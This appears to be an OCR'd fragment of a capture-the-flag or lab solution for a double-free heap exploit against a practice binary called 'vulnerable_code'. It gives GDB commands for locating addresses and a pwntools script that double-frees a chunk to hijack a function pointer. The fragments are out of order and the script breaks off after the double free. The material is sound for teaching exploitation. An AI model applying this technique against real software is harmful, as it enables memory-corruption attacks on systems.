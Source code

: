 ```python
try:
    alloc2 = alloc() # This returns A again (due to double-free)
    log.info("Second allocation successful")
except:
    log.warning("Second allocation failed - may crash due to heap corruption")
    log.success("Exploit completed! Heap corruption successfully achieved.")
    return True

log.success("Exploit completed! All steps executed successfully.")
```

## Complete Solution (Finding Addresses with GDB)

### 1. Finding Addresses with GDB

```bash
# Open binary with GDB
gdb ./compiled/vulnerable_code

# Find function addresses
(gdb) info functions
(gdb) info functions win
(gdb) x/gx win

# Find global variable addresses
(gdb) info variables
(gdb) x/gx &gTarget
(gdb) x/gx &gTarget.fn

# Examine heap state
(gdb) break my_free
(gdb) run
(gdb) x/32gx g_head
(gdb) continue
```

### 2. Creating Double-Free Exploit

```python
from pwn import *

# Get addresses from GDB
target_fn_addr = 0x100008090  # &gTarget.fn
win_addr = 0x100000580        # win function

def alloc():
    p.sendline(b"alloc")
    return p.recvuntil(b"> ")

def free(idx):
    p.sendline(f"free {idx}".encode())
    return p.recvuntil(b"> ")

def write(idx, data_hex):
    p.sendline(f"write {idx} {data_hex}".encode())
    return p.recvuntil(b"> ")

# Exploit steps
alloc()  # chunk 0 (A)
alloc()  # chunk 1 (B)
free(0)  # Free A
free(0)  # Double free!

```